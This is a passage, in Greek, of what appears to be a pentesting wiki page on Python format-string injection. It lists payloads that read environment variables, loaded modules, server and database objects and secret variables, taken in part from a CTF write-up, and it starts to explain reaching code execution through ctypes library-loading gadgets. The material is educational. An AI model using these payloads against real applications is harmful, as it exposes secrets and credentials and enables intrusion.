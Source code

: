 {% hint style="danger" %}
Ελέγξτε επίσης την παρακάτω σελίδα για gadgets που θα r**ead ευαίσθητες πληροφορίες από τα εσωτερικά αντικείμενα της Python**:
{% endhint %}

{% content-ref url="../python-internal-read-gadgets.md" %}
[python-internal-read-gadgets.md](../python-internal-read-gadgets.md)
{% endcontent-ref %}

### Payloads Αποκάλυψης Ευαίσθητων Πληροφοριών
```python
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}

# Example from https://corgi.rip/posts/buckeye-writeups/
secret_variable = "clueless"
x = new_user.User(username='{i.find.__globals__[so].mapperlib.sys.modules[__main__].secret_variable}',password='lol')
str(x) # Out: clueless
```
### Από τη μορφή στην εκτέλεση κώδικα φορτώνοντας βιβλιοθήκες

Σύμφωνα με την [**πρόκληση TypeMonkey από αυτή την αναφορά**](https://corgi.rip/posts/buckeye-writeups/), είναι δυνατόν να φορτωθούν αυθαίρετες βιβλιοθήκες από το δίσκο εκμεταλλευόμενοι την ευπάθεια της μορφής συμβολοσειράς στην python.

Ως υπενθύμιση, κάθε φορά που εκτελείται μια ενέργεια στην python, εκτελείται κάποια συνάρτηση. Για παράδειγμα, το `2*3` θα εκτελέσει **`(2).mul(3)`** ή **`{'a':'b'}['a']`** θα είναι **`{'a':'b'}.__getitem__('a')`**.

Έχετε περισσότερα όπως αυτό στην ενότητα [**Εκτέλεση Python χωρίς κλήσεις**](./#python-execution-without-calls).

Μια ευπάθεια μορφής συμβολοσειράς στην python δεν επιτρέπει την εκτέλεση συνάρτησης (δεν επιτρέπει τη χρήση παρενθέσεων), οπότε δεν είναι δυνατόν να αποκτήσετε RCE όπως `'{0.system("/bin/sh")}'.format(os)`.\
Ωστόσο, είναι δυνατόν να χρησιμοποιήσετε `[]`. Επομένως, αν μια κοινή βιβλιοθήκη python έχει μια μέθοδο **`__getitem__`** ή **`__getattr__`** που εκτελεί αυθαίρετο κώδικα, είναι δυνατόν να τις εκμεταλλευτείτε για να αποκτήσετε RCE.

Ψάχνοντας για ένα gadget όπως αυτό στην python, η αναφορά προτείνει αυτή την [**ερώτηση αναζήτησης Github**](https://github.com/search?q=repo%3Apython%2Fcpython+%2Fdef+%28\_\_getitem\_\_%7C\_\_getattr\_\_%29%2F+path%3ALib%2F+-path%3ALib%2Ftest%2F\&type=code). Εκεί βρήκε αυτό [το ένα](https://github.com/python/cpython/blob/43303e362e3a7e2d96747d881021a14c7f7e3d0b/Lib/ctypes/\_\_init\_\_.py#L463):
```python
class LibraryLoader(object):
def __init__(self, dlltype):
self._dlltype = dlltype

def __getattr__(self, name):
if name[0] == '_':
raise AttributeError(name)
try:
dll = self._dlltype(name)
except OSError:
raise AttributeError(name)
setattr(self, name, dll)
return dll

```